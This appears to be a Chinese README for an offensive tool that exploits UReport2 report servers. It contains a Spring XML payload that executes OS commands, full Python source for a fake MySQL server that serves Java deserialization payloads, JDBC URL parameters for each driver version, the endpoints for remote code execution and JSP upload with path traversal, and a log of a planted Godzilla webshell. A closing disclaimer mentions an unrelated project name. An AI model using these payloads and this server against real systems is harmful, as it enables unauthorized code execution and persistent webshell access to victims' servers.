



# UReport2 一键验证工具

## 0x00 使用建议

使用 jdk8 运行 jar 包，其中  PostgreSQL.xml 以及 MySQL_Fake_Server 建议提前启动填入，检测时会用到

测试时 PostgreSQL.xml 内容如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="sem" class="javax.script.ScriptEngineManager"/>
  <bean id="engine" class="org.springframework.beans.factory.config.MethodInvokingFactoryBean">
    <property name="targetObject" ref="sem"/>
    <property name="targetMethod" value="getEngineByName"/>
    <property name="arguments"><list><value>javascript</value></list></property>
  </bean>
  <bean class="org.springframework.beans.factory.config.MethodInvokingFactoryBean">
    <property name="targetObject" ref="engine"/>
    <property name="targetMethod" value="eval"/>
    <property name="arguments"><list><value><![CDATA[var p=java.lang.Runtime.getRuntime().exec("id");var sc=new java.util.Scanner(p.getInputStream()).useDelimiter("\\A");var s=sc.hasNext()?sc.next():"";throw new java.lang.RuntimeException(s);]]></value></list></property>
  </bean>
</beans>
```

测试时 MySQL_Fake_Server 内容如下

```python
import socket
import struct
import sys
import threading

NAME = b"ureport.lab.MysqlDeserMarker"
PAYLOAD = b"\xac\xed\x00\x05\x73\x72" + struct.pack(">H", len(NAME)) + NAME + b"\x00" * 8 + b"\x02\x00\x00\x78\x70"


def lenenc_int(n):
    if n < 251:
        return bytes([n])
    if n < 65536:
        return b"\xfc" + struct.pack("<H", n)
    return b"\xfd" + struct.pack("<I", n)[:3]


def lenenc_str(data):
    if isinstance(data, str):
        data = data.encode("utf-8")
    return lenenc_int(len(data)) + data


def pkt(seq, payload):
    return struct.pack("<I", len(payload))[:3] + bytes([seq & 0xFF]) + payload


def recvn(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            raise EOFError()
        buf += chunk
    return buf


def read_pkt(sock):
    hdr = recvn(sock, 4)
    n = hdr[0] | (hdr[1] << 8) | (hdr[2] << 16)
    return recvn(sock, n)


def handshake():
    cap = 0x000FA68D
    body = bytearray()
    body += b"\x0a5.7.29\x00"
    body += struct.pack("<I", 1)
    body += b"12345678\x00"
    body += struct.pack("<H", cap & 0xFFFF)
    body += b"\x21"
    body += struct.pack("<H", 2)
    body += struct.pack("<H", (cap >> 16) & 0xFFFF)
    body += b"\x15" + b"\x00" * 10
    body += b"123456789012\x00mysql_native_password\x00"
    return bytes(body)


def ok():
    return b"\x00\x00\x00\x02\x00\x00\x00"


def eof():
    return b"\xfe\x00\x00\x02\x00"


def coldef(name, blob):
    body = bytearray()
    body += lenenc_str(b"def") + lenenc_str(b"") + lenenc_str(b"t") + lenenc_str(b"t")
    body += lenenc_str(name) + lenenc_str(name) + b"\x0c"
    if blob:
        body += b"\x3f\x00\xff\xff\xff\x00\xfc\x90\x00\x00\x00\x00"
    else:
        body += b"\x21\x00\x40\x00\x00\x00\xfd\x00\x00\x00\x00\x00"
    return bytes(body)


def send_rs(conn, cols, row, blobs):
    seq = 1
    conn.sendall(pkt(seq, lenenc_int(len(cols))))
    seq += 1
    for i, name in enumerate(cols):
        conn.sendall(pkt(seq, coldef(name, blobs[i])))
        seq += 1
    conn.sendall(pkt(seq, eof()))
    seq += 1
    packed = b""
    for item in row:
        packed += lenenc_str(item)
    conn.sendall(pkt(seq, packed))
    seq += 1
    conn.sendall(pkt(seq, eof()))


def result(conn, sql):
    u = sql.strip().upper()
    if u.startswith("SET ") or u.startswith("SET\n"):
        conn.sendall(pkt(1, ok()))
        return
    if "SHOW SESSION STATUS" in u:
        send_rs(conn, [b"Variable_name", b"Value"], [b"lab", PAYLOAD], [False, True])
        return
    if "MAX_ALLOWED_PACKET" in u:
        send_rs(conn, [b"Variable_name", b"Value"], [b"max_allowed_packet", b"16777216"], [False, False])
        return
    if "@@" in sql or u.startswith("SHOW ") or "INFORMATION_SCHEMA" in u:
        send_rs(conn, [b"v"], [b"1"], [False])
        return
    send_rs(conn, [b"payload"], [PAYLOAD], [True])


def client(conn):
    try:
        conn.sendall(pkt(0, handshake()))
        read_pkt(conn)
        conn.sendall(pkt(2, ok()))
        while True:
            body = read_pkt(conn)
            if not body:
                return
            if body[0] == 1:
                return
            if body[0] == 3:
                result(conn, body[1:].decode("utf-8", "replace"))
            else:
                conn.sendall(pkt(1, ok()))
    except Exception:
        return
    finally:
        conn.close()


def main():
    port = int(sys.argv[1]) if len(sys.argv) > 1 else 18111
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind(("0.0.0.0", port))
    srv.listen(16)
    print("fake mysql 0.0.0.0:%s" % port, flush=True)
    while True:
        conn, _ = srv.accept()
        threading.Thread(target=client, args=(conn,), daemon=True).start()


if __name__ == "__main__":
    main()
    
    
## python3 fake.py 18111
```


## 0x01 界面



| 项 | 默认 | 作用 |
|---|---|---|
| 目标 | `http://127.0.0.1:8080/ureport` | UReport 根地址 |
| 打法 | H2 | 只影响挂马、Sleep、加载字节码 |
| MySQL 版本 | `5.1.11-5.1.49` | 只影响挂马 |
| Gadget | CC6 | 只影响 MySQL 挂马 |
| PostgreSQL.xml | `http://127.0.0.1:18080/PostgreSQL.xml` | PostgreSQL `socketFactoryArg` 需要使用 |
| Fake MySQL | `127.0.0.1:18111` | 目标回连的 `host:port` |

检测不看打法。勾了 JDBC，H2、MySQL、PostgreSQL 都会试。写 JSP 只测 JSP 执行。

MySQL 三个范围：

| 范围 | 挂马走哪 | URL 参数 |
|---|---|---|
| `5.1.11-5.1.49` | `testConnection` | `statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor` |
| `8.0.0-8.0.19` | `testConnection` | `queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor` |
| `8.0.20-8.1.0` | `previewData` / 报表 XML | `autoDeserialize=true`，不带 interceptor，用 UReport 里面的 `ResultSet.getObject` |

`8.0.20` 起 interceptor 不再 `getObject`，`8.2.0` 起去掉 `autoDeserialize`。具体分析可参考 https://baozongwi.xyz/p/ureport2-unauth-designer-rce/

## 0x02 检测

可 RCE：

- `/datasource/previewData` JDBC（H2 / MySQL / PostgreSQL）
- `/datasource/testConnection` JDBC（H2 / MySQL / PostgreSQL）
- `/preview` 报表 XML JDBC
- `/designer/saveReportFile` 写 JSP 并执行

其他：设计器、classpath 资源、删文件、XXE、图片读文件、图片 SSRF、H2 `FILE_READ`、回带数据源密码。

日志末尾给出命中，例如



打法不影响检测，检测时会对所有驱动进行遍历

## 0x03 字节码

由目标环境决定打法再而影响加载方式

| 打法 | 行为 |
|---|---|
| H2 | `INIT=CREATE ALIAS`，`defineClass` 后注册 Filter |
| JSP | `saveReportFile` 写 `gz.jsp`，访问后注册 Filter |
| MySQL | Fake MySQL + 所选版本和 Gadget（CC6 或 CB） |
| PostgreSQL | `ClassPathXmlApplicationContext` 拉 `PostgreSQL.xml`，Nashorn `defineClass` |

挂载哥斯拉成功日志如下

```text
[+] 挂哥斯拉
url=http://127.0.0.1:8104/ureport/designer
password=pass
secretKey=key
payload=JavaDynamicPayload
cryption=JAVA_AES_BASE64
encoding=UTF-8
headers=User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) gzua/537.36 AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
AES-key(md5(secretKey)[0:16])=3c6e0b8a9c15224a
findStrLeft=11CD6A8758984163 findStrRight=6C37AC826A2A04BC
proxy=NO_PROXY connTimeout=15000 readTimeout=60000
test=OK HTTP 200 Godzilla JAVA_AES_BASE64 握手成功 findStr=11CD6A8758984163
```

加载字节码示例图



默认 MySQL 单驱动的时候，并没有足够的依赖去打 CC6 或者是 CB 链，有些师傅可能就要说了，那你这不是胡闹吗😅，其实不然，这两种gadget我都在实际项目中成功打过，所以加上了这两

/designer/saveReportFile 是配合 file: 进行路径穿越直接传到网站根目录

> https://github.com/4ra1n/mysql-fake-server
>
> https://github.com/trganda/fmysql
>
> https://github.com/fnmsd/MySQL_Fake_Server
>
> https://github.com/frohoff/ysoserial

## ⚠️ 免责声明

**免责声明：**

本文档仅用于**授权安全测试**和**学术研究**。**严禁**利用本文档内容进行任何非法活动。

**合规要求：**

- 所有渗透测试必须在获得**书面授权**后方可进行
- 使用者应遵守《中华人民共和国网络安全法》及相关法律法规
- 未经授权对未授权目标进行安全测试属于**违法行为**
- 使用者需自行承担所有法律风险和责任

**使用规范：**

- **严禁**在未授权的情况下对任何系统进行安全测试
- **严禁**将本工具用于任何形式的网络犯罪
- **严禁**在未经授权的情况下利用本工具获取的漏洞信息
- **严禁**将本工具分发给未授权使用者

**责任声明：**

- 本项目 (`ShiroAttack2`) 的开发者/维护者**不承担**任何因使用本工具而产生的法律责任
- 本工具仅供安全研究和授权测试用途
- 使用者在使用本工具前应确保已获得**明确的书面授权**
- 使用本工具即表示您同意遵守上述所有条款

**法律依据：**

- 《中华人民共和国刑法》第 285、286 条
- 《中华人民共和国网络安全法》
- 《中华人民共和国数据安全法》
- 《中华人民共和国个人信息保护法》

**报告漏洞：** 如发现安全漏洞，请通过负责任的方式披露，勿直接公开漏洞细节。
